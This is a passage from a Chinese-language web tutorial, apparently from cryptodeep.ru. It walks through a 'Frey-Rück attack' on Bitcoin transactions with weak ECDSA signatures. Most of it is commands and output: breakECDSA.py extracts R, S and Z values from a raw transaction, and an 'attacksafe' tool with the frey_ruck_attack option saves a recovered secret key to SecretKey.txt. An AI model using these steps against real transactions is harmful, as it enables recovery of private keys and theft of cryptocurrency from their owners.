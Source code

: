 

<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-60-1024x252.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-1006"/></figure>



<pre class="wp-block-code"><code>R = 0xcda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8
S = 0xab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad8428975
Z = 0x9d568564500c4b9911ccd4dbb3865e0c9129f2697e9a710f575c63f5f22753b1</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-61-1024x310.png" alt="實施 Frey-Rück 攻擊以獲得密鑰“K”（NONCE）" class="wp-image-1008"/></figure>



<p>我們發起了這次攻擊<code>-tool frey_ruck_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>
